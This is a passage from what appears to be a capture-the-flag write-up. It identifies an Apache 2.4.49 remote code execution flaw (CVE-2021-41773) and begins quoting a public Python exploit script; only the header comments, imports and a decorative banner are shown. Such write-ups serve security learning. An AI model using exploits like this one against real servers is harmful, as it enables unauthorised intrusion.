 ```
===============================================================
```

3. Doing some research into apache 2.4.49 we find that it has a [critical vulnerability](https://httpd.apache.org/security/vulnerabilities_24.html#CVE-2021-41773) that can lead to RCE. Searching for exploits, we find this python script.
```
# Exploit Title: Apache HTTP Server 2.4.50 - Remote Code Execution (RCE) (3)
# Date: 11/11/2021
# Exploit Author: Valentin Lobstein
# Vendor Homepage: https://apache.org/
# Software Link: https://github.com/Balgogan/CVE-2021-41773
# Version: Apache 2.4.49/2.4.50 (CGI enabled)
# Tested on: Debian GNU/Linux
# CVE : CVE-2021-41773 / CVE-2021-42013
# Credits : Lucas Schnell


#!/usr/bin/env python3
#coding: utf-8

import os
import re
import sys
import time
import requests
from colorama import Fore,Style


header = '''\033[1;91m
    
     \u2584\u2584\u2584       \u2588\u2588\u2593\u2588\u2588\u2588   \u2584\u2584\u2584       \u2584\u2588\u2588\u2588\u2588\u2584   \u2588\u2588\u2591 \u2588\u2588 \u2593\u2588\u2588\u2588\u2588\u2588     \u2588\u2588\u2580\u2588\u2588\u2588   \u2584\u2588\u2588\u2588\u2588\u2584  \u2593\u2588\u2588\u2588\u2588\u2588 
    \u2592\u2588\u2588\u2588\u2588\u2584    \u2593\u2588\u2588\u2591  \u2588\u2588\u2592\u2592\u2588\u2588\u2588\u2588\u2584    \u2592\u2588\u2588\u2580 \u2580\u2588  \u2593\u2588\u2588\u2591 \u2588\u2588\u2592\u2593\u2588   \u2580    \u2593\u2588\u2588 \u2592 \u2588\u2588\u2592\u2592\u2588\u2588\u2580 \u2580\u2588  \u2593\u2588   \u2580 
    \u2592\u2588\u2588  \u2580\u2588\u2584  \u2593\u2588\u2588\u2591 \u2588\u2588\u2593\u2592\u2592\u2588\u2588  \u2580\u2588\u2584  \u2592\u2593\u2588    \u2584 \u2592\u2588\u2588\u2580\u2580\u2588\u2588\u2591\u2592\u2588\u2588\u2588      \u2593\u2588\u2588 \u2591\u2584\u2588 \u2592\u2592\u2593\u2588    \u2584 \u2592\u2588\u2588\u2588   
    \u2591\u2588\u2588\u2584\u2584\u2584\u2584\u2588\u2588 \u2592\u2588\u2588\u2584\u2588\u2593\u2592 \u2592\u2591\u2588\u2588\u2584\u2584\u2584\u2584\u2588\u2588 \u2592\u2593\u2593\u2584 \u2584\u2588\u2588\u2592\u2591\u2593\u2588 \u2591\u2588\u2588 \u2592\u2593\u2588  \u2584    \u2592\u2588\u2588\u2580\u2580\u2588\u2584  \u2592\u2593\u2593\u2584 \u2584\u2588\u2588\u2592\u2592\u2593\u2588  \u2584 
    \u2593\u2588   \u2593\u2588\u2588\u2592\u2592\u2588\u2588\u2592 \u2591  \u2591 \u2593\u2588   \u2593\u2588\u2588\u2592\u2592 \u2593\u2588\u2588\u2588\u2580 \u2591\u2591\u2593\u2588\u2592\u2591\u2588\u2588\u2593\u2591\u2592\u2588\u2588\u2588\u2588\u2592   \u2591\u2588\u2588\u2593 \u2592\u2588\u2588\u2592\u2592 \u2593\u2588\u2588\u2588\u2580 \u2591\u2591\u2592\u2588\u2588\u2588\u2588\u2592
    \u2592\u2592   \u2593\u2592\u2588\u2591\u2592\u2593\u2592\u2591 \u2591  \u2591 \u2592\u2592   \u2593\u2592\u2588\u2591\u2591 \u2591\u2592 \u2592  \u2591 \u2592 \u2591\u2591\u2592\u2591\u2592\u2591\u2591 \u2592\u2591 \u2591   \u2591 \u2592\u2593 \u2591\u2592\u2593\u2591\u2591 \u2591\u2592 \u2592  \u2591\u2591\u2591 \u2592\u2591 \u2591
    \u2592   \u2592\u2592 \u2591\u2591\u2592 \u2591       \u2592   \u2592\u2592 \u2591  \u2591  \u2592    \u2592 \u2591\u2592\u2591 \u2591 \u2591 \u2591  \u2591     \u2591\u2592 \u2591 \u2592\u2591  \u2591  \u2592    \u2591 \u2591  \u2591
    \u2591   \u2592   \u2591\u2591         \u2591   \u2592   \u2591         \u2591  \u2591\u2591 \u2591   \u2591        \u2591\u2591   \u2591 \u2591           \u2591 
''' + Style.RESET_ALL


```